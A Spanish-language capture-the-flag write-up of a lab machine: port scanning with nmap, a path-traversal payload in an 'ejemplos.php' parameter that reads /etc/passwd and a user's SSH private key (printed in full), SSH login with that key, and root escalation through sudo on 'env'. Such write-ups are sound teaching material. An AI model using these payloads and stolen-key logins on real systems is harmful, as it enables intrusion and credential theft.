 # pn to pn to -
## Reconocimiento
En primer lugar, haciendo uso de `nmap` escaneo todos los puertos de la máquina para obtener información.
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![Escaneo nmap](imgs/1.png)

El resultado: Un servidor SSH y uno HTTP de título "LeFvIrus", a falta de más info, accedo a la página para recavar datos. La página muestra un mensaje que avisa de que el equipo esta infectado con un virus, bajo este mensaje hay dos botones, uno para ver ejemplos de otros sistemas infectados y uno que dice: *Hacer clic aquí podría empeorar la situación.*

Revisando el código fuente veo que el botón de peligro ejecuta un script, lo pruebo y básicamente se carga la máquina, tuve que reiniciar el laboratorio ya que respondía con 403 todo el rato después de pulsarlo.
Por otro lado, el botón de los ejemplos redirige a `/ejemplos.php`, pero el directorio muestra un error ya que no hay ningún archivo. La forma de la URL me llama la atención.
```
http://172.17.0.2/ejemplos.php?images=./ejemplo1.png
```
## Explotación
Al probar un payload sencillo de directory trasversal, veo que el parámetro es vulnerable.
```
http://172.17.0.2/ejemplos.php?images=/etc/passwd
```

![Directory traversal](imgs/2.png)

Probando a buscar distintos archivos aprovechando la vulnerabilidad encontrada, doy con la llave de SSH del usuario `nico`
```
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn NhAAAAAwEAAQAAAYEA07BRWc6X8Yz+VwO1l5UAqcFE5K+1yQ9QxFBrt8DzyC9x7o0tluCk 4f4gObHgatf/tXX/z8oGKYnAY48/vctJz//3M9phYgcFhoDOs+F3NgyYZ7oZN/TeEgTlql Z4QGyjn5akiLmDwSTqEqd5Tla+KnNVCEHO2MpoDTWJB4uI6TdHt3iDX19jszJ+r9BNZODk O7RUkL72sq2pAHLfhlPlaDdH50cd/1bNOkm45U4JmXxTrWNh4AmaZdHGIPiQpvRUJDXack 9tfWaxXBRG95YHh1DMg8LZujKkk35XbesoMBK+eh2mBdISDxR7+XPTyiyGAJ0Qts2TjIfm 2Agqzwbjl1uPffyMrjS2t5gzKcWuPDXWKXmy0rF6ZEWw2hKdC3oY/rxM+zg5B+cnmCTja5 5AgpYgnxN7PD4BLqGFP5Nu1bZ3txduoDlEROHkmsIAJMwy6JNRg7qNL11m2S8YuxR5Iyi5 gpgnD3PQxEepQ0L/7xrUELUvf4jnaLnNBiFaDob7AAAFiNB8ulDQfLpQAAAAB3NzaC1yc2 EAA73n XM31TeyMRbAfpCZ92xRsllCFS2zLmpy8jzPu1BzPGDI0UoWQs7VPeXm13CexexGcmOXxuv 9lqIIv+9GFaB5TxS6K7yaySgrvI3BUmvqGCx4fnWNf/6yrZ1raObcb3yGvqnrCexDySYq3 hXvIai+6lKnPeetrE5LshmcXdJwUIFAAAAwQDefEaIqWZ3JcxAD04Z8/O6uhZ3WOYoLuHX fJlc5trofrBQL5xa4P53ngHUxA4F2DbQCqbPaSCZFirq3IUEUzzOZ5Npvuur5VO41EtxTp CC2BZ0iK2UIBhk/Q62gLCU2EnuHtu6dbLEeuDF6tIlKXGbw0Lib54wRFHHQyETjJI3UGjV QkAljDAS+mPSQgQ0Mdc/KUBZ8e3AE39dxKcYs5WFyfiiZ72TJJekOiJICcOAPLH0iP+lru ayyxi3hh3t9P8AAAARbmljb0AzYTQ4YjEyYjU3YTIBAg== -----END OPENSSH PRIVATE KEY-----
```
Guardo el contenido en un archivo llamado id_rsa en mi máquina, le doy permisos y accedo mediante SSH a la máquina víctima.
```
chmod 600 id_rsa
ssh -i id_rsa nico@172.17.0.2
```
## Post explotación
Una vez dentro, al ejecutar `sudo -l` veo que puedo usar el binario `env` como root, después de una búsqueda en GTFObins ya está resuelto. 

![Post explotación](imgs/3.png)